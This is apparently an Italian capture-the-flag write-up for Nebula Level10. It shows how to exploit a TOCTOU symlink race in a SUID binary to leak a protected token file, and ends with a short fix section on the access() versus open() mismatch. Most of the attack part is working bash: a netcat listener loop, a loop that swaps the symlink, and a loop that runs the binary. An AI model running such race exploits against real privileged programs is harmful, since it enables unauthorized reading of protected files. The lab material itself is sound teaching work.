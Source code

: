 ### Level10

Nella home di flag10 si trova un file non accessibile *token* e un file SUID eseguibile da tutti che permette di inviare il contenuto di un file arbitrario ad un server in ascolto. L'obiettivo è quello di riuscire ad ottenere il contenuto di token.

Il codice sorgente dell'eseguibile presenta un **pattern TOCTOU**: una volta verificati i permessi corrispondenti al file da inviare, si fanno altre operazioni prima di inviare effettivamente il file. Si cerca di sfruttare questa debolezza utilizzando un link simbolico: si vuole che il controllo venga eseguito sul link simbolico che punta ad un file su cui si hanno sufficiente permessi; e poi cambiando destinazione del link si fa inviare all'eseguibile il file token.

Si crea quindi un file arbitrario e un link simbolico che punta a quel file.
```bash
touch /tmp/dummy
ln -fs /tmp/dummy /tmp/link 
```
In questo modo si ha un link simbolico che punta a */tmp/dummy*, su cui si hanno i permessi.

In una shell, si crea il server per ricevere i messaggi inviati dall'eseguibile.
```bash
while true; do 
    nc.traditional -lvp 18211 >> server.txt; 
done
```
Il server viene creato in un loop altrimenti si chiuderebbe ad ogni ricezione di file

In un'altra shell, si crea lo script di switch del link simbolico tra il file token e il file dummy creato in precedenza.
```bash
while true; do 
    ln -fs /home/flag10/token /tmp/link; 
    ln -fs /tmp/dummy /tmp/link; 
done
```
Questo ciclo cambia continuamente la destinazione del link simbolico

In un'altra shell, si avvia ripetutamente l'eseguibile. Il token viene inviato quando il link punta a */tmp/dummy* al momento della verifica dell'accesso e a token al momento dell'effettivo invio del file.
```bash
while true; do 
    nice -n 19 /home/flag10/flag10 /tmp/link 127.0.0.1;
done 
```
Nice viene utilizzato per ridurre la priorità del processo e aumentare le probabilità di sfruttare il TOCTOU.

A questo punto, il file *server.txt* dovrebbe contenere prima o poi il valore del token.

#### Fix: Controllo accesso con due funzioni che usano privilegi diversi
L'eseguibile effettua due controlli dell'accesso:
1. Il primo, mediante *access()* che controlla i privilegi reali
2. Il secondo, mediante *open()* che controlla i privilegi effettivi
Questo apre l'ipotesi di un attacco "scambio di link simbolico" in modo da eludere *access* per poi eseguire *open* con un altro file.
